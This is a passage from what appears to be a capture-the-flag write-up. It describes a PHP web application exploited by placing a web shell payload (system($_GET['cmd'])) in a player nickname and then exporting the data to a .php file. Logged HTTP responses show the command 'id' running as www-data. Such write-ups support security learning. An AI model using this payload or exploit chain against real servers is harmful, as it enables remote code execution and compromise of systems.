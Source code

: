 ```
   Headers:
      Date: Sat, 28 Oct 2023 15:22:34 GMT
      Server: Apache/2.4.52 (Ubuntu)
      Expires: Thu, 19 Nov 1981 08:52:00 GMT
      Cache-Control: no-store, no-cache, must-revalidate
      Pragma: no-cache
      Location: /admin.php?msg=Data has been saved in exports/top_players_ysdboq9m.php
      Content-Length: 0
      Keep-Alive: timeout=5, max=100
      Connection: Keep-Alive
      Content-Type: text/html; charset=UTF-8
   Cookies:
   Content:
b''
[ ] Exported file: exports/top_players_ysdboq9m.php
[ ] reading export
URL: /exports/top_players_ysdboq9m.php?cmd=id
Session cookie: {'PHPSESSID': '3dnelk59tdkbg13p012thk98up'}
HTTP Response:
   Response code: 200
   Headers:
      Date: Sat, 28 Oct 2023 15:22:34 GMT
      Server: Apache/2.4.52 (Ubuntu)
      Vary: Accept-Encoding
      Content-Encoding: gzip
      Content-Length: 243
      Keep-Alive: timeout=5, max=100
      Connection: Keep-Alive
      Content-Type: text/html; charset=UTF-8
   Cookies:
   Content:
b'<table><thead>  <tr>    <th scope="col">Nickname</th>    <th scope="col">Clicks</th>    <th scope="col">Level</th>  </tr></thead><tbody>  <tr>    <th scope="row">uid=33(www-data) gid=33(www-data) groups=33(www-data)\n</th>    <td>13371337</td>    <td>666</td>  </tr>  <tr>    <th scope="row">admin</th>    <td>999999999999999999</td>    <td>999999999</td>  </tr>  <tr>    <th scope="row">ButtonLover99</th>    <td>10000000</td>    <td>100</td>  </tr>  <tr>    <th scope="row">uid=33(www-data) gid=33(www-data) groups=33(www-data)\n</th>    <td>13371337</td>    <td>666</td>  </tr>  <tr>    <th scope="row">Paol</th>    <td>2776354</td>    <td>75</td>  </tr>  <tr>    <th scope="row">Th3Br0</th>    <td>87947322</td>    <td>1</td>  </tr></tbody></table>'
```

In the “save game” command, it replace the current nickname with a PHP command execution :

```python
payload="<?php system($_GET['cmd']);?>"
```

When requested the exported file as PHP, the executed command is “id”, and we get it in the exported file :

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

